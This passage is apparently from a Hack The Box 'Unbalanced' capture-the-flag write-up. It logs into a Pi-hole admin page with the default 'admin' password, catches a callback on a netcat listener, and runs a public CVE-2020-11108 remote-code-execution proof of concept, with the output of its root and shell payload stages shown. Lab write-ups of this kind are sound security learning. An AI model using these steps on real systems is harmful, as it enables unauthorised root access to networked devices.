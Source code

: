 Needed a password in order to log into the setting page,

[https://hub.docker.com/r/pihole/pihole](https://hub.docker.com/r/pihole/pihole) - tried to find it in the docker logs, but couldnt find the docker-compose.yml

```text
bryan@unbalanced:/etc$ docker logs pihole | grep WEBPASSWORD
Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get http://%2Fvar%2Frun%2Fdocker.sock/v1.40/containers/pihole/json: dial unix /var/run/docker.sock: connect: permission denied
```

Also did not have pernissions to read the docker logs

pic

tried logging in with admin...and got in! \(Should have tried that first!\). I noticed that the service was running with root privileges

```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ nc -lvnp 8099                                                                                   1 ⨯
listening on [any] 8099 ...
connect to [10.10.15.88] from (UNKNOWN) [10.10.10.200] 55154
GET / HTTP/1.1
Host: 10.10.15.88:8099
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: */*
If-Modified-Since: Sun, 15 Nov 2020 02:29:23 GMT

HTTP/1.1 200 OK

test

^C
```

The first part of the exploit seemed to work, but after the refresh I couldnt get it to display `.domain`. Perhaps it wasnt vulnerable to this?

[https://github.com/frichetten/CVE-2020-11108-PoC](https://github.com/frichetten/CVE-2020-11108-PoC)

```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ sudo python3 ./root-cve-2020-11108-rce.py prdbr29htat9e3p10o7c7le7h1 http://127.0.0.1 10.10.15.88 12345     
[+] Put Root Stager Success
[+] Received First Callback
[+] Received Second Callback
[+] Uploading Root Payload
[+] Put Shell Stager Success
[+] Received Third Callback
[+] Received Fourth Callback
[+] Uploading Shell Payload
[+] Triggering Exploit
```


[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>